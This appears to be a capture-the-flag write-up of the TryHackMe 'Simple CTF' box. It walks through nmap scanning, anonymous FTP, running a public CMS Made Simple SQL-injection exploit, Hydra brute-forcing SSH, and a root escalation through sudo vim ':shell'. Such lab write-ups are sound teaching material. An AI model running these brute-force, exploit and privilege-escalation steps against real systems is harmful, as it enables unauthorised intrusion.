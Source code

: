 # Simple-CTF
### Nmap 

`nmap -v -sC -sV -oN <DIRECTORY> $IP`

```
Host is up (0.39s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.12.253
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP
`$ ftp $IP`

`ftp> ls -al`

```
ftp> ls -al                                                                                   │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
200 PORT command successful. Consider using PASV.                                             │Information
150 Here comes the directory listing.                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .                                     │ForMitch.txt  Information
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..                                    │root@kali:~/Documents/TryHackMe/Simple-Ctf# ping 10.10.56.123
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub                                   │PING 10.10.56.123 (10.10.56.123) 56(84) bytes of data.
226 Directory send OK.                                                                        │64 bytes from 10.10.56.123: icmp_seq=1 ttl=63 time=275 ms
ftp> cd pub                                                                                   │^C
250 Directory successfully changed.                                                           │--- 10.10.56.123 ping statistics ---
ftp> ls                                                                                       │2 packets transmitted, 1 received, 50% packet loss, time 1002ms
200 PORT command successful. Consider using PASV.                                             │rtt min/avg/max/mdev = 274.740/274.740/274.740/0.000 ms
150 Here comes the directory listing.                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# mv ForMitch.txt Information/
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt                          │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls- al
226 Directory send OK.                                                                        │-bash: ls-: command not found
ftp> get ForMitch.txt                                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
local: ForMitch.txt remote: ForMitch.txt                                                      │Information
200 PORT command successful. Consider using PASV.                                             │root@kali:~/Documents/TryHackMe/Simple-Ctf# cd Information/
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).                         │root@kali:~/Documents/TryHackMe/Simple-Ctf/Information# ls -al
226 Transfer complete.                                                                        │total 20
166 bytes received in 0.00 secs (2.0039 MB/s) 
```
### Port 80
> We go to the Browser for observing the Web-App

![Screenshot_2020-09-04_07-15-11](https://user-images.githubusercontent.com/56790998/92246651-0f733380-ee94-11ea-94cd-1ddb3bb2179e.png)

> We try searching for Robots.txt but the given directory doesn't exist

![robots txt](https://user-images.githubusercontent.com/56790998/92246753-329de300-ee94-11ea-87f1-d1a68332f6aa.png)

> Since Gobuster was slow I tried to brute-force direectory myself starting with the name of box *SIMPLE*


`$ curl http://$IP/simple`

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.56.123/simple/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.56.123 Port 80</address>
</body></html>
root@kali:~/Documents/TryHackMe/Simple-Ctf# 
```
> Since it returned 301 we check that page


![simple_cms_home_page](https://user-images.githubusercontent.com/56790998/92247248-f323c680-ee94-11ea-9a50-0372f0de05c7.png)


## Enumeration

`$ searchsploit CMS made simple`

![searchsploit](https://user-images.githubusercontent.com/56790998/92247687-8ceb7380-ee95-11ea-8d1e-80d50511df6f.png)

![highlighted-exploit](https://user-images.githubusercontent.com/56790998/92247764-a8ef1500-ee95-11ea-88b3-d82d9100399a.png)

`$ searchsploit -m php/webapps/46635.py`

`$ mv 46635.py exploit.py`

`$ pip install termcolor`

`$ python exploit.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt`

> since this script takes a lot of time and its better to run 2 enumeration we can try brute-forcing SSH using HYDRA
and user as mitch which we got from FTP

`$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt $IP -s 2222 -Vv`

```
[2222][ssh] host: 10.10.56.123   login: mitch   password: secret
```

`$ ssh mitch@10.10.56.123 -p 2222`

## Privilege Escalation

`$ which python3`

```
/usr/bin/python3
```

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`

`$ sudo -l`

```
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

`$ sudo vim`

> Press escape then : and type shell

`:shell`

`# whoami`

```
root
```

`ls /home/mitch/user.txt`

`ls /root/root.txt`

